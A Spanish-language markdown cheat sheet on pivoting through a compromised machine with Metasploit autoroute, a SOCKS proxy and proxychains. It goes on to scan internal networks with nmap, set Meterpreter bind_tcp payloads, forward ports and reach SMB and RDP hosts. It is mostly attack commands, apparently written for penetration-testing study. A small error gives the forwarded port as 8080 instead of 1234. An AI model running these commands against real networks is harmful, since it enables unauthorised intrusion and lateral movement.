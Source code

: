 ### 🔥 **Pivoting con `proxychains` en Metasploit**

Si quieres usar herramientas externas como **Nmap, RDP o SMB** para explorar la red interna, necesitas configurar un **túnel SOCKS** y enrutar el tráfico a través de la máquina comprometida.

---

## 🚀 **1️⃣ Configurar `autoroute` en Meterpreter**

Si no lo has hecho, añade la ruta de la red interna a través de la máquina pivot:

```bash
run autoroute -s 10.0.16.0/20
```

Verifica que la ruta está agregada:

```bash
run autoroute -p
```

O usa:
`for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.0.%i > nul && echo 192.168.0.%i is up.`
```bash
route print
```

---

## 🌐 **2️⃣ Configurar el servidor SOCKS en Metasploit**

Para redirigir el tráfico a través de la máquina comprometida, ejecuta:

```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080  # Puerto del proxy SOCKS
set VERSION 5     # Usamos SOCKS5
run
```

o

```bash
use auxiliary/server/socks_proxy
set SRVPORT 9050  # Puerto del proxy SOCKS4
set VERSION 4a     # Usamos SOCKS4
run
```

✅ Esto crea un **servidor SOCKS en `localhost:1080`** que enviará tráfico a la red interna **a través de Meterpreter**.

---

## 🛠 **3️⃣ Configurar `proxychains`**

Ahora necesitamos decirle a **`proxychains`** que use el proxy SOCKS de Metasploit.

📌 **Edita el archivo de configuración de `proxychains`**

```bash
nano /etc/proxychains.conf
```

🔹 **Cambia la última línea** para definir el proxy SOCKS5 de Metasploit:

```
socks5 127.0.0.1 1080
```

o

```
socks4 127.0.0.1 9050
```

Guarda y cierra el archivo (`CTRL + X`, `Y`, `ENTER`).

---

## 🎯 **4️⃣ Usar herramientas con `proxychains`**

Ahora puedes usar cualquier herramienta a través del túnel SOCKS.

### 🔍 **Escanear la red interna con Nmap**

```bash
proxychains nmap -sT -Pn -n -p 445,3389 10.0.16.0/20
```

🔹 **Explicación**:

- `-sT` → Escaneo TCP (porque SYN no funciona bien con SOCKS).
- `-Pn` → No hacer ping, asumir que los hosts están activos.
- `-n` → No resolver DNS.
- `-p 445,3389` → Buscar puertos SMB y RDP.

### 🔍 **Escanear una ip identificada con Nmap**

```bash
proxychains nmap -sT -Pn -n -p- -sCV 10.0.16.48
```

🔹 **Explicación**:

- `-sT` → Escaneo TCP (porque SYN no funciona bien con SOCKS).
- `-Pn` → No hacer ping, asumir que los hosts están activos.
- `-n` → No resolver DNS.
- `-p-` → Buscar puertos SMB y RDP.
- `-sCV es el conjunto de dos comandos juntos` → `-sC` = ejecuta scripts comunes para el puerto encontrado, `-sV` = identifica la version del servicio corriendo en el puerto encontrado

## **Cargar exploit con msfconsole en la maquina identificada**

- Si estás utilizando `proxychains`, asegúrate de que el exploit se ejecute a través del túnel SOCKS:

```shell
set Proxies socks4:<IP donde corre el proxy (comunmente localhost 127.0.0.1)>:<puerto SOCKS>
```

Cuando se realiza un ataque de este tipo debemos usar el bind_tcp

- Windows: `set PAYLOAD windows/meterpreter/bind_tcp`
- Linux: `set PAYLOAD linux/meterpreter/bind_tcp`

### ✅ **Haz el port forwarding (con Meterpreter, si aplica)**

👉 Ejecuta:

```bash
portfwd add -l 1234 -p 80 -r 10.4.22.56
```

👉 Explicación:

| Parámetro         | Descripción                                         |
| ----------------- | --------------------------------------------------- |
| **-l 1234**       | Es el puerto local en tu máquina. (localhost:1234)  |
| **-p 80**         | Es el puerto del servidor víctima (puerto 80 HTTP). |
| **-r 10.4.22.56** | Es la IP del servidor víctima.                      |

 **Lo que hace esto:**

- Redirige TODO lo que entre a `localhost:8080` ➡️ al servidor web de la víctima (`10.4.22.56:80`

### 🖥 **Conectar a SMB en la red interna**

```bash
proxychains smbclient -L //10.0.20.50 -U usuario%contraseña
```

### 🖥 **Conectar a RDP en la red interna**

```bash
proxychains xfreerdp /u:admin /p:password /v:10.0.20.50
```

### 📂 **Montar un recurso compartido SMB**

```bash
proxychains mount -t cifs //10.0.20.50/share /mnt -o username=admin,password=contraseña
```

---

## 🏆 **Resumen**

✅ **1️⃣ Configurar `autoroute`** en Meterpreter para enrutar tráfico interno.  
✅ **2️⃣ Iniciar un servidor SOCKS** en Metasploit (`auxiliary/server/socks_proxy`).  
✅ **3️⃣ Configurar `proxychains`** en `/etc/proxychains.conf`.  
✅ **4️⃣ Usar herramientas externas** (`nmap`, `smbclient`, `xfreerdp`, etc.) para atacar la red interna.

🔥 **Con esto, puedes explorar la red pivotando desde la máquina comprometida sin depender solo de Metasploit.**